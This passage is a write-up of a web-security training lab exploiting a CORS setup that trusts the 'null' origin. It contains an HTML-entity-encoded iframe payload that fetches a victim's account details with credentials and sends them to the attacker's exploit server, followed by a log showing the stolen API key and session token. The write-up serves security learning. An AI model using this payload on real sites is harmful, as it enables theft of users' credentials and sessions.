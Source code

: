 ### Whitelisted null origin value

The specification for the Origin header supports the value null. Browsers might send the value null in the Origin header in various unusual situations:

-    Cross-origin redirects.
-    Requests from serialized data.
-    Request using the file: protocol.
-    Sandboxed cross-origin requests.

### Lab: CORS vulnerability with trusted null origin

This website has an insecure CORS configuration in that it trusts the "null" origin.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter 

In this lab, the "null" origin is reflected in the **Access-Control-Allow-Origin** header. 

We can reuse the above lab script and modify it
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="HTML-encoded-script"></iframe>
```
The **null** origin can be triggered in sandboxed iframes, data URLs, and some cross-origin redirects.

Using an `<iframe>` with `sandbox="allow-scripts allow-top-navigation allow-forms"` makes the request appear to come from a null origin.

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="&#x3c;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;&#x0a;&#x63;&#x6f;&#x6e;&#x73;&#x74;&#x20;&#x72;&#x65;&#x71;&#x20;&#x3d;&#x20;&#x6e;&#x65;&#x77;&#x20;&#x58;&#x4d;&#x4c;&#x48;&#x74;&#x74;&#x70;&#x52;&#x65;&#x71;&#x75;&#x65;&#x73;&#x74;&#x28;&#x29;&#x0a;&#x0a;&#x72;&#x65;&#x71;&#x2e;&#x6f;&#x70;&#x65;&#x6e;&#x28;&#x27;&#x67;&#x65;&#x74;&#x27;&#x2c;&#x20;&#x27;&#x68;&#x74;&#x74;&#x70;&#x73;&#x3a;&#x2f;&#x2f;&#x30;&#x61;&#x33;&#x38;&#x30;&#x30;&#x38;&#x35;&#x30;&#x34;&#x61;&#x64;&#x31;&#x61;&#x32;&#x35;&#x38;&#x39;&#x65;&#x33;&#x32;&#x64;&#x36;&#x66;&#x30;&#x30;&#x32;&#x31;&#x30;&#x30;&#x32;&#x36;&#x2e;&#x77;&#x65;&#x62;&#x2d;&#x73;&#x65;&#x63;&#x75;&#x72;&#x69;&#x74;&#x79;&#x2d;&#x61;&#x63;&#x61;&#x64;&#x65;&#x6d;&#x79;&#x2e;&#x6e;&#x65;&#x74;&#x2f;&#x61;&#x63;&#x63;&#x6f;&#x75;&#x6e;&#x74;&#x44;&#x65;&#x74;&#x61;&#x69;&#x6c;&#x73;&#x27;&#x2c;&#x20;&#x74;&#x72;&#x75;&#x65;&#x29;&#x0a;&#x0a;&#x72;&#x65;&#x71;&#x2e;&#x6f;&#x6e;&#x6c;&#x6f;&#x61;&#x64;&#x20;&#x3d;&#x20;&#x28;&#x29;&#x20;&#x3d;&#x3e;&#x20;&#x7b;&#x77;&#x69;&#x6e;&#x64;&#x6f;&#x77;&#x2e;&#x6c;&#x6f;&#x63;&#x61;&#x74;&#x69;&#x6f;&#x6e;&#x2e;&#x68;&#x72;&#x65;&#x66;&#x20;&#x3d;&#x20;&#x27;&#x2f;&#x6e;&#x67;&#x6c;&#x6f;&#x6e;&#x67;&#x30;&#x35;&#x3f;&#x6b;&#x65;&#x79;&#x3d;&#x27;&#x20;&#x2b;&#x20;&#x72;&#x65;&#x71;&#x2e;&#x72;&#x65;&#x73;&#x70;&#x6f;&#x6e;&#x73;&#x65;&#x54;&#x65;&#x78;&#x74;&#x7d;&#x0a;&#x0a;&#x72;&#x65;&#x71;&#x2e;&#x77;&#x69;&#x74;&#x68;&#x43;&#x72;&#x65;&#x64;&#x65;&#x6e;&#x74;&#x69;&#x61;&#x6c;&#x73;&#x20;&#x3d;&#x20;&#x74;&#x72;&#x75;&#x65;&#x0a;&#x72;&#x65;&#x71;&#x2e;&#x73;&#x65;&#x6e;&#x64;&#x28;&#x29;&#x0a;&#x3c;&#x2f;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;"></iframe>
```
Log:
```
"GET /nglong05?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%227UKgYS5QsisFVJVGWpcDwpn8Wt3Zx1YS%22,%20%20%22sessions%22:%20[%20%20%20%20%22QiB71OOt9bAUaTNmgjk1nthsKw3MYZ9J%22%20%20]} HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
```
Which contains the data:
```json
{  "username": "administrator",  "email": "",  "apikey": "7UKgYS5QsisFVJVGWpcDwpn8Wt3Zx1YS",  "sessions": [    "QiB71OOt9bAUaTNmgjk1nthsKw3MYZ9J"  ]}
```
## Exploiting XSS via CORS trust relationships
